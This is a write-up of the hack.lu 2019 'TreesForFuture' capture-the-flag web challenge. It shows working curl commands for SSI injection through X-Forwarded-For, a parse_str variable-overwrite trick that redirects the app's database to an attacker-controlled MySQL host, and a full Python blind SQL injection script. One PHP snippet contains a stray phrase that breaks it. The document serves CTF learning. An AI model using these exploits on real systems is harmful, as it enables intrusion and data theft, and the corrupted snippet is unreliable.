


TreesForFuture - hack.lu CTF 2019
=================================

> We are TreesForFuture. We actively work towards getting more trees onto this planet. Recently we hired a contractor to create a website for us. While we still need to fill it with content in some places, you can already look at it [http://31.22.123.49:1908]().


Preface
-------
Having scored the first blood and with only 2 teams solving the challenge, I thought it was almost mandatory to publish a write-up. I have to say that I really liked it, even if I found it frustrating at a time. By looking back at all the steps needed to complete it, I can easily see that all the pieces fits perfectly in place and - probably - the only part that required some guessing, i.e., the location of the flag, has been addressed by one of the hints released 24h after the start of the competition. Many thanks to [@\_Imm0](https://twitter.com/_Imm0) and [fluxfingers](https://fluxfingers.net/) for preparing it. I had a long journey hacking through it but highly rewarding!


Overview
--------
The challenge provides a simple single-page website that filled with Lorem ipsum quotes and a picture of a tree. 

A quick analysis of the HTML code of the page reveals a more interesting path where the tree picture is hosted

```HTML

```

This portal served at [http://31.22.123.49:1908/internal/login]()  offers a registration/login form and an admin page that tells us that we are not admin after logging in:

```HTML
<div class="custom_tooltip">You're not admin.<span class="custom_tooltiptext">XXX.XXX.XXX.XXX isn't admins IP.</span></div>
```


To the source(s)
----------------
It seems obvious that to be identified as admins we need to come from a specific IP. To do so we first identify the internal IP of the host serving the challenge by crafting a malformed request to obtain some useful error message.

```Bash
$ curl -X '' http://31.22.123.49:1908/internal/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 127.0.1.1 Port 13337</address>
</body></html>
```

Once we know that the challenge is hosted internally at `127.0.1.1`, port `13337`, we can try to use the `X-Forwarded-For` header to trick the server into believing that our original IP is `127.0.1.1`.

```Bash
$ curl -b 'PHPSESSID=qloervi3nq447sdlukt2cp0g29' -H 'X-Forwarded-For: 127.0.0.1' http://31.22.123.49:1908/internal/admin
...
<div class="main">
        <div class="custom_tooltip">You're not admin.<span class="custom_tooltiptext">127.0.0.1, 128.130.112.21 isn't admins IP.</span></div>
</div>
```

The header is successfully parsed and the IP reflected back into the page, but no admin privileges are granted.

After hours of random attempts, we figured out that it was possible to perform a [SSI](https://en.wikipedia.org/wiki/Server_Side_Includes) injection (thanks Jan!) to leak the PHP source code of all the pages of the website.

```Bash
$ curl -b 'PHPSESSID=qloervi3nq447sdlukt2cp0g29' -H 'X-Forwarded-For: <!--#include virtual="admin.phps" -->' http://31.22.123.49:1908/internal/admin
```

It's enough to repeat the process for all the pages to reconstruct the [entire code base](src/). Notice that the server prevents us from accessing files that are located outside of the current directory, so we can't read the following files: `../config.php`, `../db_config.php`, `../db_credentials.php`.

Digging deeper
--------------
The sources are a constellation of bad security practices that is even surprising that the application is actually working. Sadly, this does not mean that the application can be easily exploited. As an example, we report some of the security pitfalls that can be easily spotted.

From `login.php`:

```PHP
// We had some issues with double encoded values. This fixed it.
$parmas = parse_str(urldecode(file_get_contents("php://input")));
```

Here the [`parse_str()`](https://www.php.net/manual/en/function.parse-str.php) function is used to parse the body of the POST request. The PHP documentation clearly states that 

> Warning
> Using this function without the result parameter is highly DISCOURAGED and DEPRECATED as of PHP 7.2.
> Dynamically setting variables in function's scope suffers from exactly same problems as register_globals.
> Read section on security of Using Register Globals explaining why it is dangerous.

Basically we can set and overwrite variables by passing them over POST requests.

From `register.php`:

```PHP
$params["password"] = hash("sha512", $params["password"]);
$stmt = $pdo->prepare("Insert into members (username, password) values (:username, '{$params['password']}')");
$stmt->bindParam(":username", $params["username"], PDO::PARAM_STR);
$stmt->execute();
```

Contrary to the username value that is safely bound to the correct parameter, the password is hashed and then its hash is concatenated as a string to the SQL query. That said, the code above does not present any way to inject SQL statements, but it's definitely a bad practice that rang a bell in my head.

From `admin.php`:

```PHP
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    if (!isset($_SESSION["logged_in"]) || $_SESSION["logged_in"] !== true) {
        header("Location: /internal/login", true, 302);
        die();
    } else {
        /* disabled for security reasons */
        die("Disabled for security reasons");
        $parmas = parse_str(urldecode(file_get_contents("php://input")));
        $pdo = new_database_connection();
        $stmt = $pdo->prepare("select * from members where username like '%" . $params["username"] . "%'");
        $stmt->execute();
        if ($stmt->rowCount() >= 1) {
            $result = $stmt->fetchAll(PDO::FETCH_ASSOC);
            foreach($result as $row) {
                echo "<tr>";
                echo "<td>{$row['id']}</td>";
                echo "<td>{$row['username']}</td>";
                echo "<td>{$row['password']}</td>";
                echo "<td>{$row['admin']}</td>";
                echo "</tr>";
            }
        }
    }
} ...
```

This is an extremely weird pattern. The whole code after the second `die()` call is dead and it is not clear for what reason this has been provided. Notice that without the second `die()` we could exploit `parse_str()` to overwrite `$params["username"]` and inject arbitrary SQL statements.

There are other peculiarities in the code. 

From `register.php`:

```PHP
if (isset($params["auto_login"])) {
    require_once "login.php";
    die("Welp, I have no idea what you did, but this code is supposed to be dead.");
}
```

By passing the `$params["auto_login"]` via POST to the register page, the backend *includes* `login.php` instead of redirecting us to that page.

From `utils.php`:

```PHP
function new_database_connection()
{
       global $db_host, $db_name, $db_user, $db_pass;
       require_once "../db_config.php";
       include "../db_credentials.php";
       $pdo = new PDO("mysql:host=$db_host;dbname=$db_name", $db_user, $db_pass);
       return $pdo;
}
```

For some reason the database configuration (most likely `$db_host` and `$db_name`) are included using [`require_once`](https://www.php.net/manual/en/function.require-once.php), while the credentials are fetched via [`include`](https://www.php.net/manual/en/function.include.php). The difference between the two inclusion methods is that the `require_once` statement causes PHP to check if the file has already been included, and if so, does not include it again, while `include` does not perform this check.

From `admin.php`:

```PHP
if ($_SESSION["is_admin"] === true) {
    // Joe: Implemented additional check. Bob told me that his friend recently bypassed this and that I should implement additional checks.
    $pdo = new_database_connection();
    $stmt = $pdo->prepare("SELECT admin FROM members WHERE id=" . $_SESSION["id"]);
    $stmt->execute();
    if ($stmt->rowCount() === 1) {
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        if ($result["admin"] === "1") {
            echo '<div id="Login"ok let's try to  class="">';
            echo '<br>';
            echo '<p>';
            echo '<h1><b> Member Search</b></br> </h1>';
            echo '</p>';
            echo '<form action="/internal' . $_SERVER["SCRIPT_NAME"] . '" method="POST">';
            echo '<label for="params[username]"><b>Username</b></label>';
            echo '<br>';
            echo '<button type="submit" class="button"><b>Search</b></button>';
            echo '<br>';
            echo '</form>';
            echo '</div>';
        }
    } else {
        die("You ain't admin. You must be a bad hacker.");
    }
```

The code above is traumatic. Even in the unlikely event that we manage to become admin, there is no evidence that a flag (in case you forgot, we're here for that indeed) will be printed anywhere.


Putting it all together
-----------------------
The previous section provides all the pieces needed to carry on the exploitation process. Not knowing where the flag is actually stored, my approach consisted in trying to subvert the application in any possible way and afterwards thinking about the flag. Turned out, indeed, that becoming admin was not the ultimate goal of the challenge, but it was a relevant step to get closer to the flag.

We have the powerful capability of setting/overwriting variables via POST requests, so let's try to make a good use of it. As mentioned before, `register.php` includes `login.php` if the registration completes successfully and if the POST parameter `$params["auto_login"]` is provided. In this case, the `login.php` code shares the environment set previously by the `register.php` page, including the variables that we can craft thanks to the `parse_str()` vulnerability. Looking for interesting variables to overwrite, I noticed again the `new_database_connection()` function defined in `utils.php`. Due to the different inclusion methods of `db_config.php` and `db_credentials.php`, we can assume that `$db_user` and `$db_pass` are re-instantiated every time `new_database_connection()` is called, while `$db_host` `$db_name` are left untouched by `require_once` after the first inclusion. It follows that if we pollute the environment from `register.php` and we manage to include `login.php` from the registration page, we can actually control the host and the database name used by the PDO connector used at login time!

### Pwn like Bob's friend and get admin privs

The idea at this point is to register with any user, then let the PDO connector fetch login data from a MySQL server under our control and then head to `/internal/admin` having `$_SESSION["is_admin"]` set to true. The relevant snippet from `login.php` is provided below:

```PHP
$params["password"] = hash("sha512", $params["password"]);
$stmt = $pdo->prepare("select * from members where username=:username and password='" . $params["password"] . "'");
$stmt->bindParam(":username", $params["username"], PDO::PARAM_STR);
$stmt->execute();
if ($stmt->rowCount() === 1) {
    // Successfully logged in. Populate Session.
    $result = $stmt->fetch(PDO::FETCH_ASSOC);
    $_SESSION["username"] = $result["username"];
    $_SESSION["id"] = $result["id"];
    $_SESSION["logged_in"] = true;
    $_SESSION["is_admin"] = $result["admin"] === "1" ? true : false;
    header("Location: /internal/admin", true, 302);
    die();
} 
```

The preconditions to perform the attack are easily satisfiable, but notice that the MySQL username and password used by the connector are unknown. The username `ctf-user` can be leaked by setting up a MySQL server and check the logs for failed connection attempts, but - as far as I know - the password cannot be retrieved in a similar way.

```
2019-10-23T01:04:10.766062Z 5 [Note] Access denied for user 'ctf-user'@'31.22.123.49' (using password: YES)                                                             
```

Also, creating a username without a password results in a "access denied" error when the connector provides a password. After enough [googling](https://superuser.com/questions/1127299/how-to-restart-mysql-with-skip-grant-tables-if-you-cant-use-the-root-password) I figured out that is it possible to completely get rid of password checking by setting the option `skip-grant-tables` on my MySQL configuration file. Thanks to this totally unsafe debugging feature, we can perform the attack by:

1. Create the database `tree` in the MySQL instance hosted on our server `tree.minimalblue.com` and grant access to that db to the user `ctf-user`
2. Create the table `tree.members` and add one row that matches a user that we will register on the challenge site in the next step, setting the `admin` column to `1`. For example, given the user `marco` with password `lol`, we should add something like this:
```
-------------------------------------------------------
| id | username |                    password | admin |
------------------------------------------------------|
|  0 |    marco | 3dd28c5a23f780659d83dd99... |     1 |
-------------------------------------------------------
```
3. Register the same user `marco` with password `lol` on the `http://31.22.123.49:1908/internal/register` and pass to that endpoint the POST variables that will cause the database parameters to be overwritten at login time:
   * `params[username]=marco`
   * `params[password]=lol`
   * `params[auto_login]=on`
   * `db_host=tree.minimalblue.com`
   * `db_name=tree`
4. Given that we are forcibly setting `admin=1` in the result set of the query performed by the login page, we should be able to simply follow the redirection to `/internal/admin` to verify that we effectively gained admin access by checking whether the `Member Search` text is found in the page.


### Sorry Joe, we can do better than Bob's friend

Now that we managed to gain admin privileges and we entered a branch in the code that looked impossible to reach at the beginning of this quest, it is time to look for the flag. Assuming that the flag is in the database (this has been subsequently confirmed by a hint released 24h after the competition start), we must find a way to inject arbitrary SQL statements, dump the list of tables, columns and - eventually - read the flag.

To do so we can leverage the same technique adopted to login as admin and perform a second-order SQL injection by saving the payload in the `id` column the user that we create on our server. You can indeed observer that `login.php` sets `$_SESSION["id"]` to any value that we provide in our table and then this value is concatenated in `admin.php` to perform another query, opening space to SQL injections:

```PHP
$stmt = $pdo->prepare("SELECT admin FROM members WHERE id=" . $_SESSION["id"]);
```

Since the output of this query is not directly printed in the page, we have to rely on a blind SQL injection and leak 1 bit of information at a time by registering a new user at every request. As a oracle, we set the admin value to either `1` or `0` depending on our condition. It turned out that the flag was stored in the table `s3cr3t_st0r4g3` under the column `s3cr3t`. The full script developed to execute the attack is provided below:

```Python
#!/usr/bin/python3

import sys
import string
from subprocess import run, PIPE
import requests


CHARS = sorted(string.printable, key = lambda c: ord(c))
URL = 'http://31.22.123.49:1908'
USERNAME = 'fqertyuiop'
COUNT = 1337

def remote_add(payload):
    user = '{}_{}'.format(USERNAME, COUNT)
    php_code = '''
        $db_host="tree.minimalblue.com";
        $db_name="tree";
        $db_user="ctf-user";
        $db_pass="ctf-pwd";
        $pdo = new PDO("mysql:host=$db_host;dbname=$db_name", $db_user, $db_pass);
        $stmt = $pdo->prepare("INSERT INTO members(id, username, password) VALUES ('QUERY', 'USER', 'f7fbba6e0636f890e56fbbf3283e524c6fa3204ae298382d624741d0dc6638326e282c41be5e4254d8820772c5518a2c5a8c0c7f7eda19594a7eb539453e1ed7')");
        $stmt->execute();
    '''.replace('QUERY', payload).replace('USER', user)

    run(['php', '-r', php_code], stdout=PIPE)


def oracle(pos, guess):
    payload = '-337 UNION SELECT IF({}>=(SELECT ORD(MID(s3cr3t, {}, 1)) from s3cr3t_st0r4g3 LIMIT 1), 1, 0)'.format(guess, pos)
    
    remote_add(payload)
    
    s = requests.Session()
    r = s.post('{}/internal/register.php'.format(URL), {
            'params[username]': '{}_{}'.format(USERNAME, COUNT),
            'params[password]': 'foo',
            'params[auto_login]': 'on',
            'db_host': 'tree.minimalblue.com',
            'db_name': 'tree'
        }, allow_redirects=True)

    return 'Member Search' in r.text


def search_bin(pos):
    global COUNT

    l = 0
    h = len(CHARS)-1

    while l != h:
        m = (l + h) // 2
        if oracle(pos, ord(CHARS[m])):
            h = m
        else:
            l = m + 1

        COUNT += 1

    return CHARS[l]


def main():
    for pos in range(1, 100):
        print(search_bin(pos))


if __name__ == '__main__':
    main()
```

Flag: `flag{ffc1f54c7a4e7f7e9065d4b16f1ac742}`